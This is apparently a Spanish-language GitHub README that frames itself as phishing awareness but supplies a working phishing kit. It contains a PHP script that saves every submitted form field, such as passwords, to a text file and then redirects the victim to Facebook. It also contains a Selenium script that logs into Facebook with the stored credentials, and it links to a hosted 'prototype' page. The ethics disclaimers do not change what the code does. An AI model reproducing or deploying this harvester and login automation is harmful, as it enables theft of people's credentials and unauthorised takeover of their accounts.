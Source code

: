 ## Phishing y Automatización de Formularios
Este README proporciona información sobre el phishing y cómo el siguiente ejemplo que mostraremos de automatización de formularios puede considerarse un ejemplo de phishing. El phishing es una práctica engañosa y potencialmente dañina que se utiliza para obtener información confidencial de manera fraudulenta.

## ¿Qué es el Phishing?
Phishing es una forma de ciberataque en la que un atacante se hace pasar por una entidad de confianza (como un banco, una red social o una empresa legítima) para engañar a las personas y obtener información confidencial, como contraseñas, números de tarjetas de crédito y otra información personal. El objetivo del phishing es obtener acceso no autorizado a cuentas, robar identidades o cometer otros tipos de fraude.

Los ataques de phishing a menudo implican el envío de correos electrónicos o la creación de sitios web falsos que se parecen mucho a los originales. Los estafadores utilizan tácticas de ingeniería social para engañar a las víctimas y hacer que divulguen información sensible.

## Automatización de Formularios y Phishing
El ejemplo de código anterior muestra cómo se puede utilizar la automatización de formularios con Selenium para ingresar credenciales en un formulario de inicio de sesión en una página web. Aunque el código es presentado aquí con fines educativos y éticos, es importante destacar que la misma técnica de automatización de formularios puede ser utilizada con fines maliciosos y considerarse una forma de phishing si se realiza sin el consentimiento y la autorización adecuados.

Algunas de las características comunes que pueden convertir la automatización de formularios en un acto de phishing incluyen:

##3 Engaño:  El atacante puede engañar a las víctimas para que compartan sus credenciales al hacerles creer que están interactuando con un sitio web legítimo.

Recopilación de Datos Sensibles: La automatización de formularios puede utilizarse para recopilar datos confidenciales, como contraseñas, números de tarjeta de crédito o información personal, sin el consentimiento del usuario.

Suplantación de Identidad: Al utilizar la automatización de formularios, un atacante puede suplantar la identidad de una entidad de confianza para robar información.

### Nota Importante 
Este README se proporciona para crear conciencia sobre el phishing y destacar cómo la automatización de formularios puede considerarse una forma de phishing si se usa con intenciones maliciosas. Se enfatiza la importancia de realizar actividades de seguridad de manera ética y legal, y de respetar las políticas y leyes aplicables.

El phishing es ilegal y dañino. No debe ser utilizado con fines maliciosos, y se debe tener cuidado de respetar las leyes y regulaciones aplicables al realizar pruebas de seguridad en sistemas y sitios web.

Asegúrate de cumplir con todas las leyes y regulaciones aplicables y de respetar las políticas de seguridad del sitio web al realizar actividades de automatización de formularios.

#Buenas Prácticas para Evitar Mal Uso de Datos de Formulario

Este README tiene como objetivo proporcionar información sobre buenas prácticas y directrices para garantizar que las tecnologías y scripts en uso cumplan con los principios éticos y legales, y eviten prácticas maliciosas como la recolección no autorizada de datos de formulario.

## Descripción del Código

El código proporcionado es un ejemplo que ilustra cómo se pueden manipular datos de formulario en un entorno web. Sin embargo, es esencial utilizar este código de manera ética y legal y contar con el permiso adecuado para realizar pruebas y actividades relacionadas con la seguridad.
Este còdigo almacena los datos de un formulario en un bloc de notas y redirige a facebook
```php
<?php
$archivo = fopen("contras.txt", "a");
fwrite($archivo, "\r\n");
foreach ($_POST as $key => $value) {
    fwrite($archivo, $key . "=" . $value . "\r\n");
}
fclose($archivo);
header("Location: https://www.facebook.com");
die();
?>

```
## Buenas Prácticas

Para evitar el mal uso de datos de formulario y garantizar la seguridad y la integridad de los sistemas y los datos, se deben seguir las siguientes buenas prácticas:

1. **Consentimiento y Autorización**: Antes de realizar pruebas de seguridad en cualquier sistema, obtén el consentimiento y la autorización explícita del propietario del sistema o sitio web. Realizar pruebas sin autorización puede ser ilegal.

2. **Entorno Controlado**: Realiza pruebas en un entorno controlado y aislado que no afecte a sistemas o datos en producción.

3. **Transparencia**: Asegúrate de que todas las pruebas se realicen de manera transparente y documentada. Registra todas las actividades realizadas.

4. **Eliminación Segura de Datos**: Si se recopilan datos durante las pruebas, asegúrate de eliminarlos de manera segura y completa una vez que las pruebas hayan concluido.

5. **Cumplimiento Legal**: Cumple con todas las leyes y regulaciones de seguridad informática aplicables en tu jurisdicción.

## Nota Importante

Este README se proporciona con la intención de promover prácticas de seguridad éticas y legales. El código proporcionado no debe utilizarse con fines maliciosos, y se debe tener cuidado de respetar las leyes y regulaciones aplicables en todo momento.
## Automatizar el inicio de sesiòn en facebook con contraseñas y usuarios almacenados en un bloc de notas
El código que proporcionaste es un ejemplo de cómo utilizar Selenium para automatizar el inicio de sesión en una página web utilizando contraseñas almacenadas en un archivo. El código realiza las siguientes acciones:

Configura el controlador de Selenium y abre el sitio web de Facebook.
Lee las credenciales desde un archivo de bloc de notas ("credenciales.txt").
Divide el archivo en bloques separados por líneas en blanco para procesar las credenciales de múltiples usuarios.
Para cada usuario en los bloques separados:
a. Divide cada bloque en líneas y crea un diccionario clave-valor para las credenciales.
b. Verifica si existen las claves 'email' y 'pass' en el diccionario.
c. Encuentra los elementos de usuario y contraseña en la página web.
d. Ingresa las credenciales en los campos correspondientes.
e. Envía el formulario de inicio de sesión.
f. Espera a que la página se cargue (puedes ajustar este tiempo).
g. Realiza cualquier acción adicional si es necesario.
Este código es útil para realizar pruebas o automatizar el proceso de inicio de sesión con múltiples cuentas. Sin embargo, ten en cuenta que su uso debe realizarse de manera ética, legal y en un entorno controlado donde tengas permiso para llevar a cabo pruebas de este tipo. Además, asegúrate de que el archivo de contraseñas se mantenga de manera segura y que las contraseñas se almacenen de forma encriptada y protegida.

```python
from selenium import webdriver
from selenium.webdriver.common.keys import Keys

# Configura el controlador de Selenium y el sitio web de destino
driver = webdriver.Chrome()
driver.get("https://www.facebook.com")

# Lee las credenciales desde el archivo de bloc de notas
with open("credenciales.txt", "r") as file:
    data = file.read()

# Divide el archivo en bloques separados por líneas en blanco
usuarios = data.split('\n\n')

for usuario in usuarios:
    # Divide cada bloque en líneas y crea un diccionario clave-valor
    credenciales = {}
    for line in usuario.split('\n'):
        key, value = line.strip().split('=')
        credenciales[key] = value

    # Verifica si existen las claves 'email' y 'pass' en el diccionario
    if 'email' in credenciales and 'pass' in credenciales:
        email = credenciales['email']
        password = credenciales['pass']

        # Encuentra los elementos de usuario y contraseña
        username_element = driver.find_element_by_id("email")
        password_element = driver.find_element_by_id("pass")

        # Ingresa las credenciales
        username_element.send_keys(email)
        password_element.send_keys(password)

        # Envía el formulario de inicio de sesión
        password_element.send_keys(Keys.RETURN)

        # Espera a que la página se cargue (puedes ajustar este tiempo)
        driver.implicitly_wait(10)

        # Realiza cualquier acción adicional aquí si es necesario

# Cierra el navegador
driver.close()

```
Recuerda que la seguridad informática debe centrarse en proteger sistemas y datos, no en comprometerlos. El cumplimiento ético y legal es fundamental en todas las actividades de seguridad informática.

PROTOTIPO EN:
https://increibleayudargente.000webhostapp.com/
